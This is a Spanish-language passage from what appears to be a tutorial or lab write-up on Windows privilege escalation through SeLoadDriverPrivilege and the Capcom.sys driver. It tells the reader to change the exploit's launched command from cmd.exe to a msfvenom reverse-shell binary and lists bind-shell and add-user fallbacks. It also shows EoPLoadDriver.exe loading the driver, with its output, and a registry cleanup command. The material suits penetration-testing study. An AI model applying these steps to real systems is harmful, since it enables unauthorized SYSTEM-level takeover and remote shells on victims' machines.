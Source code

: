 **Explicación de la función `CreateProcess` usada**:

* `CreateProcess(lpApplicationName, lpCommandLine, ...)` crea un nuevo proceso.
* En este ejemplo, `CommandLine` contiene la ruta a `cmd.exe` (doble `\\` por literal en C).
* `PROCESS_INFORMATION` y `STARTUPINFO` administran los handles y opciones de inicio.
* `CREATE_NEW_CONSOLE` indica crear una nueva consola.

**Cambio sugerido en el texto**: reemplazar la línea

```c
TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
```

por

```c
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

y así lanzar un binario de *reverse shell* (`revshell.exe`) generado con `msfvenom`. El texto describe que se debe configurar un listener acorde al payload generado.

`Nota`: Si una `reverse shell` se bloquea por algún motivo, podemos intentar usar una `bind shell` o bien usar un payload que ejecute un binario en la víctima o que añada un usuario (exec / add user).

---

## 11) Automatizar: `EoPLoadDriver`

El texto menciona la herramienta [`EoPLoadDriver`](https://github.com/TarlogicSecurity/EoPLoadDriver/) que automatiza pasos: habilitar el privilegio, crear la clave de registro y ejecutar `NtLoadDriver`.

Ejemplo de ejecución:

```
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-...\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

**Interpretación**: `EoPLoadDriver` realiza automáticamente los pasos que antes hicimos manualmente (registro + habilitar) y ejecuta la llamada para cargar el driver. Luego se puede ejecutar `ExploitCapcom.exe` como se indicó antes.

---

## 12) Limpieza

Eliminar la clave que añadimos en HKCU:

```
reg delete HKCU\System\CurrentControlSet\Capcom
```
